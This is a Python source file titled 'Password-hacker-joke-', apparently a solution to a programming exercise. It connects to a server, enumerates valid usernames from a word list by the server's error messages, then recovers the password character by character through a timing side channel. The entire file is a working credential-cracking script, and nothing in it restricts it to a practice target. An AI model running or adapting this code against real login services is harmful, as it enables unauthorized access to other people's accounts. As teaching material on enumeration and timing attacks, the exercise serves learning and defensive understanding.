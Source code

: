 # Password-hacker-joke-
import socket
import sys
import string
import json
import time

# parsing arguments
ip, port = sys.argv[1:]

# connection information
address = (ip, int(port))

# message and buffer size
buffer_size = 1024

# logins path
PATH = "./logins.txt"

# alphanumeric
alphanumeric = string.ascii_lowercase + string.ascii_uppercase + string.digits


def send_creds(client, credentials, buffer=buffer_size):
    req = json.dumps(credentials, indent=4).encode()
    client.send(req)
    rcv = json.loads(client.recv(buffer).decode())
    return rcv


def create_creds(login, password=" "):
    return dict(login=login, password=password)


def fetch_login(client, buffer=buffer_size, path=PATH):
    with open(path, "r") as login_file:
        login_list = (login.strip("\n") for login in login_file.readlines())
        for login in login_list:
            credentials = create_creds(login)
            resp = send_creds(client, credentials, buffer)
            if resp["result"] == "Wrong password!":
                return login


def fetch_password(client, act_login, password, buffer=buffer_size):
    credentials = create_creds(act_login, password)
    resp = send_creds(client, credentials, buffer)
    return resp["result"]


# solution
with socket.socket() as connection:

    connection.connect(address)

    # fetch username
    corr_login = fetch_login(connection, buffer_size, PATH)

    # fetch password
    success = False
    corr_pwd = ""
    while not success:
        for char in alphanumeric:
            start = time.perf_counter()
            result = fetch_password(connection, corr_login, corr_pwd + char)
            end = time.perf_counter()
            total = end - start
            if result == "Connection success!":
                creds = create_creds(corr_login, corr_pwd + char)
                print(json.dumps(creds))
                success = True
                break
            elif (result == "Wrong password!") and (total >= 0.1):
                corr_pwd += char
